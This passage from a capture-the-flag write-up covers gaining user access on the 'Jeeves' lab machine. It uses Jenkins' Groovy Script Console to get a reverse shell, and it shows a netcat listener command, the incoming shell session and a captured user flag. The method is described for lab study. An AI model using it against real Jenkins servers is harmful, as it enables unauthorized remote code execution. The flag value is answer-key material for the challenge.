 ### 2. Getting User

On port 50000, we can find Jenkins dashboard on "/askjeeves".<br>
Besides, there is an interesting menu "Manage Jenkins".
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-09-16/2019-09-15-13-08-21.png)

After that, we can find a menu "Script Console".<br>
This allows us to run any <a href="https://groovy-lang.org/">Groovy</a> script.
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-09-16/2019-09-15-13-08-41.png)

To get a reverse shell, we need to launch netcat and execute a payload.<br>
We can find it from <a href="https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76">Github repository</a>.
{% highlight shell %}
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
{% endhighlight %}
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-09-16/2019-09-15-13-10-38.png)

Now we got a reverse shell which is "kohsuke" user.
{% highlight shell %}
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.63] 49676
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>whoami
whoami
jeeves\kohsuke
{% endhighlight %}

user.txt is in the directory "C:\Users\kohsuke\Desktop".
{% highlight shell %}
C:\Users\kohsuke\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of C:\Users\kohsuke\Desktop

11/03/2017  11:19 PM    <DIR>          .
11/03/2017  11:19 PM    <DIR>          ..
11/03/2017  11:22 PM                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)   7,475,908,608 bytes free

C:\Users\kohsuke\Desktop>type user.txt
type user.txt
e3232272596fb47950d59c4cf1e7066a
{% endhighlight %}

### 3. Getting Root
